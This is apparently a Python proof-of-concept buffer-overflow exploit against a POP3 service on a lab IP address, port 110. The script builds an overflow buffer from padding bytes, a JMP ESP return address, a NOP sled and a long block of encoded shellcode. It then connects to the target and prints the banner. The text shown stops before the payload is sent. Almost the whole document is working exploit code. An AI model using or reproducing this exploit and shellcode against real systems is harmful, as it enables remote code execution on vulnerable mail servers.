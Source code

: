 # Import of the socket library to connect to the POP3 service
import socket

# Victim IP and Port
host = "192.168.1.14"
port = 110

# POC Buffer
junk = b'A' * 4654
eip = b'\x5C\xCB\xCE\x75'
nop = b'\x90' * 20

buf =  b""
buf += b"\xdb\xd9\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x52\xbd\xad"
buf += b"\x99\x49\x27\x31\x6f\x17\x83\xc7\x04\x03\xc2\x8a\xab"
buf += b"\xd2\xe0\x45\xa9\x1d\x18\x96\xce\x94\xfd\xa7\xce\xc3"
buf += b"\x76\x97\xfe\x80\xda\x14\x74\xc4\xce\xaf\xf8\xc1\xe1"
buf += b"\x18\xb6\x37\xcc\x99\xeb\x04\x4f\x1a\xf6\x58\xaf\x23"
buf += b"\x39\xad\xae\x64\x24\x5c\xe2\x3d\x22\xf3\x12\x49\x7e"
buf += b"\xc8\x99\x01\x6e\x48\x7e\xd1\x91\x79\xd1\x69\xc8\x59"
buf += b"\xd0\xbe\x60\xd0\xca\xa3\x4d\xaa\x61\x17\x39\x2d\xa3"
buf += b"\x69\xc2\x82\x8a\x45\x31\xda\xcb\x62\xaa\xa9\x25\x91"
buf += b"\x57\xaa\xf2\xeb\x83\x3f\xe0\x4c\x47\xe7\xcc\x6d\x84"
buf += b"\x7e\x87\x62\x61\xf4\xcf\x66\x74\xd9\x64\x92\xfd\xdc"
buf += b"\xaa\x12\x45\xfb\x6e\x7e\x1d\x62\x37\xda\xf0\x9b\x27"
buf += b"\x85\xad\x39\x2c\x28\xb9\x33\x6f\x25\x0e\x7e\x8f\xb5"
buf += b"\x18\x09\xfc\x87\x87\xa1\x6a\xa4\x40\x6c\x6d\xcb\x7a"
buf += b"\xc8\xe1\x32\x85\x29\x28\xf1\xd1\x79\x42\xd0\x59\x12"
buf += b"\x92\xdd\x8f\xb5\xc2\x71\x60\x76\xb2\x31\xd0\x1e\xd8"
buf += b"\xbd\x0f\x3e\xe3\x17\x38\xd5\x1e\xf0\x87\x82\x21\x12"
buf += b"\x60\xd1\x21\x03\x2c\x5c\xc7\x49\xdc\x08\x50\xe6\x45"
buf += b"\x11\x2a\x97\x8a\x8f\x57\x97\x01\x3c\xa8\x56\xe2\x49"
buf += b"\xba\x0f\x02\x04\xe0\x86\x1d\xb2\x8c\x45\x8f\x59\x4c"
buf += b"\x03\xac\xf5\x1b\x44\x02\x0c\xc9\x78\x3d\xa6\xef\x80"
buf += b"\xdb\x81\xab\x5e\x18\x0f\x32\x12\x24\x2b\x24\xea\xa5"
buf += b"\x77\x10\xa2\xf3\x21\xce\x04\xaa\x83\xb8\xde\x01\x4a"
buf += b"\x2c\xa6\x69\x4d\x2a\xa7\xa7\x3b\xd2\x16\x1e\x7a\xed"
buf += b"\x97\xf6\x8a\x96\xc5\x66\x74\x4d\x4e\x96\x3f\xcf\xe7"
buf += b"\x3f\xe6\x9a\xb5\x5d\x19\x71\xf9\x5b\x9a\x73\x82\x9f"
buf += b"\x82\xf6\x87\xe4\x04\xeb\xf5\x75\xe1\x0b\xa9\x76\x20"

# Build exploit buffer out of the junk data ('A's), eip containing 'JMP ESP', NOPs and shellcode
buffer = junk + eip + nop + buf

# Build a TCP SOCKET (stream) and use it to connect to victim IP & Port
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(1024)
print(data)
